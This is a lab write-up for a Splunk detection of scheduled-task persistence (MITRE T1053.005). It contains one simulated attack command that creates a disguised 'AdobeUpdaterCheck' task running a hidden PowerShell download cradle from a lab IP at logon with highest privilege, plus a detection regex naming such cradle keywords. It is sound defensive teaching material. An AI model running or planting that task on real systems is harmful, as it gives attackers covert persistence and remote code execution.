







# Detection 3 — Scheduled Task Persistence

**MITRE ATT&CK:** T1053.005 (Scheduled Task/Job: Scheduled Task)
**Log sources:** Windows Security log — Event 4698 (scheduled task created); Sysmon Event 1 (process creation) as corroboration

## The attack

From the victim (192.168.56.20) I created a scheduled task with `schtasks.exe` that runs a hidden PowerShell download cradle at every logon, with highest privilege, under a name that imitates a real updater. It points at a dead address on the isolated network, so nothing actually runs, but the malicious task is fully recorded.

```
schtasks /create /tn "AdobeUpdaterCheck" /tr "powershell.exe -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.99/update.ps1')" /sc onlogon /rl highest
```



Each flag maps to a signal: `/sc onlogon` is the persistence trigger, the `/tr` command is the hidden download cradle, `/rl highest` is the privilege, and the fake name hides it in plain sight.

## Log source

This detection uses two logs, but it leans on them differently.

**Event 4698 (Security) — the primary.** It fires when a task is created by *any* method — `schtasks.exe`, PowerShell cmdlets, the COM API, or Group Policy — and it carries the full task definition (what it runs, the trigger, the privilege) inside its XML. That is why it is the anchor.

```
index=windows source="WinEventLog:Security" EventCode=4698
```



**Sysmon Event 1 — corroboration.** It shows `schtasks.exe` running with its parent process and user, which is useful context for triage. But it only catches the `schtasks.exe` method, so it is support, not the backbone.

```
index=windows source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 CommandLine="*schtasks*"
```



## The query

The command that decides malicious-or-benign is buried inside the 4698's XML. Without the Splunkbase add-on, Splunk does not break that XML into fields, so the query does it in two parts: first extract the fields, then judge them.

**Extract** — `rex` grabs the task's XML, then `spath` pulls the command, the arguments, and the privilege out into clean fields:



**Judge** — the `where` clause keeps a task only if its command is a script interpreter (powershell, cmd, etc.) **or** its arguments carry attack behaviour (download, encoding, hidden, bypass). It keys on the *shape* of the task, never on the name, so it still fires when the attacker changes the name, URL, or payload.

```
index=windows source="WinEventLog:Security" EventCode=4698
| rex field=_raw "(?s)(?<task_xml><Task\s.*</Task>)"
| spath input=task_xml path=Task.Actions.Exec.Command output=TaskCommand
| spath input=task_xml path=Task.Actions.Exec.Arguments output=TaskArguments
| spath input=task_xml path=Task.Principals.Principal.RunLevel output=TaskRunLevel
| where match(TaskCommand, "(?i)(powershell|cmd\.exe|wscript|cscript|mshta|rundll32|regsvr32)")
     OR match(TaskArguments, "(?i)(-enc|-e |-encodedcommand|downloadstring|downloadfile|invoke-webrequest|invoke-expression|iex|frombase64|hidden|-nop|bypass)")
| table _time Account_Name TaskCommand TaskArguments TaskRunLevel
```

The two conditions are joined by OR, not AND, because either one alone is enough to make a task suspicious — a task running `mshta` is a red flag with no arguments, and a `DownloadString` in the arguments is a red flag even if the command looks renamed. Requiring both would leave a gap the attacker could slip through.



## The alert

The query is saved as a scheduled Splunk alert:
- Runs every 5 minutes, searching the last 15 minutes
- Triggers when the query returns a result
- Throttled to one alert per host per 60 minutes, so one attack is one alert
- Severity: High



Confirmed firing automatically after a live attack.



## False positives

This detection is broad on purpose. It flags any task whose action runs an interpreter or whose arguments show attack behaviour, so it catches the technique rather than one specific task. The cost of that width is false positives.

On the lab the rule fires only on the malicious task. The two benign tasks present — OneDrive's updater and Windows' update notifier — are ignored, because each runs its own signed `.exe`, not an interpreter, and neither has suspicious arguments. They fail both halves of the rule.

But "clean on the lab" is not "no false positives." A real machine creates many tasks all day, and some legitimate ones (updaters, deployment tools, monitoring agents) genuinely run PowerShell from a task — those would trip the rule. The lab just does not happen to contain one. A rule that catches a class of behaviour will also catch the harmless members of that class; that is the trade-off, not a bug.

Tuning is done by context, not by making the query stricter — that only blinds it. To tell benign from malicious, check the fields already extracted:

- **Command** — signed program in its normal path (benign) vs an interpreter like `powershell.exe` (suspicious)
- **Arguments** — empty or normal (benign) vs download, hidden, or encoded (suspicious)
- **Privilege** — `LeastPrivilege` (benign) vs `HighestAvailable` (suspicious)
- **Parent process** — a software installer (benign) vs an interactive shell or Office app (suspicious)

When a task is confirmed benign, exclude it narrowly by its identity — a named signed binary in a known path — never by weakening the rule.

**Limitation:** the detection anchors on 4698, so it catches task creation by any method — but the Sysmon corroboration only sees the `schtasks.exe` method. A task created through PowerShell cmdlets or the COM API leaves no process-creation trace, so the parent-process context is missing, even though 4698 still fires.

## Response steps

When this fires:
1. Read the task from the alert — the command, the arguments, the privilege, and the account that created it.
2. Look at the command. Is it the task's own signed program, or an interpreter like `powershell.exe` or `cmd.exe`? An interpreter running from a scheduled task is the red flag.
3. Read the arguments — the real intent in plain text. A bare IP like `192.168.56.99`, a hidden window, or an encoded command is malicious; a known company path is probably fine.
4. Check the privilege. `HighestAvailable` on a task that runs a script is suspicious; a normal updater runs at `LeastPrivilege`.
5. Check the parent process in the Sysmon Event 1. An interactive `cmd.exe` or `powershell.exe` means a person set it up by hand. An Office app creating a task is malicious.
6. Decide. If real: delete the task, kill anything it already started, reset the affected account, and check what else changed on the host.
7. Check whether the same task appears on other hosts.

## Hardening note

Event 4698 depends on the **Audit Other Object Access Events** policy, which is off by default on workstations. Enabling it is what makes scheduled-task creation visible at all — without it, this persistence technique leaves no Security-log trace.

## NCA ECC-2:2024 mapping

- **2-12 Cybersecurity Event Logs and Monitoring Management** — centrally collected Security and Sysmon logs, continuously monitored, are what make this detection possible.
- **2-13 Cybersecurity Incident and Threat Management** — the response steps show how a detected event moves into response.
- **2-3 Information System and Information Processing Facilities Protection** — the detection protects the endpoint against malicious persistence, supporting the malware-protection intent of this control.
